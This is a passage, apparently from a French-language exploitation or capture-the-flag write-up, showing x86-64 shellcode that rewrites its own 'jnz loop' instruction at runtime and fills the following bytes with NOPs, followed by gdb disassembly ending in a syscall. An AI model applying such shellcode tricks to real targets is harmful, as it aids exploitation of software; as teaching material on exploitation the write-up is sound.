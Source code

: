 On peut mettre en commentaire le `jnz loop` et le rempacer par deux instructions
`nop`.  
On recompile une première fois pour obtenir la taille du shellcode et ajuster
l'emplacement de l'instruction `jnz loop`. Et une seconde fois après avoir
modifié cette taille dans notre shellcode. Ce qui donne :
```asm
bits 64

%define SIZE 0x1b

lea rdi, [rsp+0x45] ; rdi = debut shellcode

; reconstruire le jnz loop
mov BYTE [rdi+0x19], 0x75
mov BYTE [rdi+0x1a], 0xf6

add rdi, SIZE ; taille shellcode


loop:
    mov BYTE [rdi+rax], 0x90
    inc al
    cmp al, SIZE
    ;jnz loop
    nop
    nop
```

Voici le résultat dans gdb après l'exécution de notre shellcode :
```
   0x7fffffffe381:      xor    eax,eax
   0x7fffffffe383:      xor    rbx,rbx
   0x7fffffffe386:      xor    rcx,rcx
   0x7fffffffe389:      xor    rdx,rdx
   0x7fffffffe38c:      xor    rdi,rdi
   0x7fffffffe38f:      xor    rsi,rsi
   0x7fffffffe392:      xor    r8,r8
   0x7fffffffe395:      xor    r9,r9
   0x7fffffffe398:      xor    r10,r10
   0x7fffffffe39b:      xor    r11,r11
   0x7fffffffe39e:      xor    r12,r12
   0x7fffffffe3a1:      xor    r13,r13
   0x7fffffffe3a4:      xor    r14,r14
   0x7fffffffe3a7:      xor    r15,r15
   0x7fffffffe3aa:      xor    rbp,rbp
   0x7fffffffe3ad:      lea    rdi,[rsp+0x45]
   0x7fffffffe3b2:      mov    BYTE PTR [rdi+0x19],0x75
   0x7fffffffe3b6:      mov    BYTE PTR [rdi+0x1a],0xf6
   0x7fffffffe3ba:      add    rdi,0x1b
   0x7fffffffe3be:      mov    BYTE PTR [rdi+rax*1],0x90
   0x7fffffffe3c2:      inc    al
   0x7fffffffe3c4:      cmp    al,0x1b
   0x7fffffffe3c6:      jne    0x7fffffffe3be
=> 0x7fffffffe3c8:      nop
   0x7fffffffe3c9:      nop
[...]
   0x7fffffffe3e1:      nop
   0x7fffffffe3e2:      nop
   0x7fffffffe3e3:      syscall
```
